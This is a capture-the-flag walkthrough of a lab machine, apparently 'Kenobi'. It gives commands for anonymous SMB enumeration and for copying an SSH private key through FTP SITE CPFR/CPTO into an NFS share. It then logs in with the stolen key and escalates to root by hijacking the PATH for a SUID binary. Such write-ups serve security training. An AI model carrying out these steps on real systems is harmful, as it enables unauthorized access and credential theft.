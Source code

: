 # Kenobi
## Scanning & Enumeration
### Nmap
![nmap](images/nmap.png)

![nmap2](images/nmap2.png)

We can see there's a `/var/` directory that we can mount with NFS.

### SMB
![smb shares](images/smb_shares.png)

There's this `anonymous` disk we can connect to.

We try without a password and we can see that it connects and it has a `log.txt` file inside.

![smb log](images/smb_anon.png)

We get this file and if we read the contents we see the FTP configuration and at the top there's the SSH keys showing the path `/home/kenobi/.ssh`

![log.txt](images/log1.png)

## Exploitation
We can try to connect through ftp:

```bash
nc <IP> 21
```

And use commands to move the private key from `/home/kenobi/ssh` to inside the `/var` directory we see we can access through NFS:

```bash
SITE CPFR /home/kenobi/.ssh/id_rsa
SITE CPTO /var/tmp/id_rsa
```

Then all we need to do is mount the share and use the `id_rsa` file to connect to SSH.

```bash
sudo mount <IP>:/var kenobiNFS
cp kenobiNFS/tmp/id_rsa .
ssh -i id_rsa kenobi@<IP>
```

## Post-Exploitation
We can try to find files with SUID bits using the following command:

```bash
find / -perm -u=s -type f 2>/dev/null
```

Out of those, there's `/usr/bin/menu` which is a bit weird. When we execute it there's 3 options which return some information from the machine.

Let's check readable parts of the binary with:

```bash
strings /usr/bin/menu
```

We can see that for the first choice, it runs `curl` without the full path. This binary runs as `root`, so we can use this to our benefit.

We'll create a new `curl` script that will execute `/bin/sh` and when we run the `/usr/bin/menu` binary and choose the 1st option, we'll have access to `root`.

![root](images/root.png)

